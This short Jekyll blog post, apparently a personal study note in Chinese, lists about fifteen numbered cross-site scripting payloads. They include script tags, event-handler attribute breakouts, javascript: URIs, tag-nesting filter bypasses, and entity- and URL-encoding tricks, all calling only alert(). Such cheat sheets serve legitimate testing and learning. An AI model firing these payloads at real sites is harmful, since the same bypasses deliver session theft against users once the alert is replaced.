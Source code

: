```yaml
---
layout: post
title: "xss_note"
date: 2018-09-16
category: 
tags: 
---
```

xss的payload
1
<script>alert(/xss/)</script>
2
"><script>alert(/xss/)</script>

3

'onmouseover='alert(/xss/)'

4
" oninput=alert`xss`//
" onfocus=alert`xss` autofocus= "
" onchange=alert`xss` "


<img src=x onerror=alert(/xss/)>

5

"><a href=javascript:alert(/xss/)>

6
"><A HREF=javascript:alert(/xss/)>

7
"><scrscriptipt>alert(/xss/)</scscriptript>

8
html 字符实体编码转换
java&#x73;cript:alert(1)

9
java&#x73;cript:alert(1)/*http://*/

10
&t_sort=a" onclick="alert(1)"

15
urlencode
%0a%0d
<img%0asrc=xx%0aonerror=alert(/xss/)>

